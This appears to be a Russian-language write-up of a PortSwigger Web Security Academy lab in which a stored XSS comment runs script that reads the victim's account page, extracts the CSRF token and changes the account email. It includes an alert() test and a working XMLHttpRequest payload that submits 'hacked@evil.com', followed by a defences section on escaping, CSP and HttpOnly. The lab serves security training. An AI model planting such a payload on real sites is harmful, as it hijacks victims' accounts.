



## Lab: Exploiting XSS to bypass CSRF defenses
**Платформа:** PortSwigger Web Security Academy  
**Категория:** XSS    
**Сложность:** Practitioner  
**Дата:** 2025-07-10  

---

## TL;DR
Stored XSS в комментариях позволяет выполнить скрипт в браузере жертвы.
Скрипт читает страницу аккаунта жертвы, извлекает её CSRF-токен
и использует его для смены email — обходя CSRF-защиту.

---

## Описание уязвимости
Классический CSRF невозможен когда токен правильно привязан к сессии —
токен жертвы неизвестен атакующему.

Но Stored XSS выполняет код **в браузере жертвы и в контексте её сессии**.
Это позволяет:
- читать любые страницы сайта от имени жертвы
- видеть её CSRF-токен в HTML
- совершать действия с валидным токеном

```
XSS → кража токена → CSRF с валидным токеном → смена email
```

---

## Разведка

### Шаг 1 — Изучаем форму смены email
Залогинилась как `wiener:peter`.
Открыла DevTools (F12 → Sources), нашла форму смены email:



Токен присутствует и привязан к сессии —
обычный CSRF без знания токена невозможен.

### Шаг 2 — Проверяем XSS в комментариях
Написала тестовый комментарий:
```html
<script>alert(document.domain)</script>
```

Обновила страницу — сработал `alert` с доменом сайта.
Stored XSS подтверждён.



---

## Эксплуатация

### Шаг 1 — Составляем payload
Скрипт который:
1. Читает `/my-account` жертвы
2. Вытаскивает её CSRF-токен
3. Меняет email

```javascript

var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get', '/my-account', true);
req.send();

function handleResponse() {
    var token = this.responseText
        .match(/name="csrf" value="(\w+)"/)[1];
    
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf=' + token + '&email=hacked@evil.com');
}

```

### Шаг 2 — Размещаем в комментарии
Вставила payload в поле комментария к посту.
Остальные поля заполнила произвольными данными.
Отправила форму.



### Шаг 3 — Проверка на себе
Открыла страницу с комментарием.
Скрипт выполнился — email аккаунта `wiener` изменился.

### Шаг 4 — Атака на жертву
Изменила email в payload на новый.
Обновила комментарий.
Жертва открыла страницу → скрипт выполнился →
email жертвы изменён — лаба решена.

---
## Почему сработало

```
Same-Origin Policy обычно запрещает:
evil.com читать ответы от bank.com  ← заблокировано

Но XSS выполняется на bank.com:
bank.com читает bank.com  ← разрешено
GET /my-account → браузер прикладывает куки жертвы
→ получаем HTML с её CSRF-токеном
→ используем токен в POST-запросе
→ сервер принимает — всё легитимно с его точки зрения
```

---

## Цепочка атаки

```
Комментарий со скриптом (Stored XSS)
        ↓
Жертва открывает страницу
        ↓
Скрипт: GET /my-account → получает HTML жертвы
        ↓
Скрипт: парсит CSRF-токен из HTML
        ↓
Скрипт: POST /change-email + валидный токен
        ↓
Сервер: токен верный, сессия верная → принимает
        ↓
Email жертвы изменён
```

---

## Итог
XSS полностью нейтрализует CSRF-защиту — даже правильно
реализованную. Скрипт в браузере жертвы имеет доступ
ко всему что видит жертва: токены, куки без HttpOnly,
содержимое страниц.

---

## Защита

```
От XSS (первопричина):
— экранировать вывод комментариев
— Content-Security-Policy запрещает inline-скрипты

От кражи токена через XSS:
— HttpOnly на сессионных куках (JS не видит куки)
— CSP: script-src 'self' (блокирует inline XSS)

Главный вывод:
XSS + CSRF = полный обход защиты
Приоритет — закрыть XSS, тогда CSRF-токен останется в безопасности
```